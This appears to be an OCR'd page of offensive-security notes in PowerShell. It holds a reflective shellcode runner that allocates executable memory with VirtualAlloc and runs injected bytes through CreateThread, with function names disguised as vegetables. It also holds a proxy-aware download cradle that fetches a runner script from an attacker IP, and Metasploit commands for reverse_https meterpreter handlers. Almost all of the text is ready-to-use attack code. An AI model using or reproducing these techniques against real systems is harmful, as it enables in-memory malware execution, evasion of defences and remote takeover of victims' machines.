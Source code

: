             if(Get-Member -InputObject $x -Name Length -MemberType Properties) {
                write-host $x | format-table
                $GetProcAddress = $x[1];
            } else {
                $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);
            }
                
            $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
            $tmpPtr = New-Object IntPtr
            $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
            return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
        }

    function apples {
    Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
    [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
    }
    $cucumbers = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll VirtualAlloc), (apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
    [Byte[]] $buf = 0xfc,0x48,0x83,0xe4,...................................
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $cucumbers, $buf.length)
    $parsnips =
    [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll CreateThread), (apples @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$cucumbers,[IntPtr]::Zero,0,[IntPtr]::Zero)
    [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll WaitForSingleObject), (apples @([IntPtr], [Int32]) ([Int]))).Invoke($parsnips, 0xFFFFFFFF)

#### Proxy-Aware PowerShell Download Cradle:

    //Defaults back to no proxy if the proxy doesn't work
    **Start 2 handlers w/ msf:  use multi/handler; set payload windows/meterpreter/reverse_https; set lhost tun0; set lport 443; run -j; set payload windows/meterpreter/reverse_https; set lhost tun0; set lport 8080; run -j

    ###########Cradle:#############
    New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
    $keys = Get-ChildItem 'HKU:\'
    ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
    $proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
    [system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
    $wc = new-object system.net.WebClient
    $wc.DownloadString("http://192.168.45.208/runner.txt")
    if (! $?) {$wc2 = new-object system.net.WebClient;$wc2.proxy = $null;$wc2.DownloadString('http://192.168.45.208/runnerNoProxy.txt'}
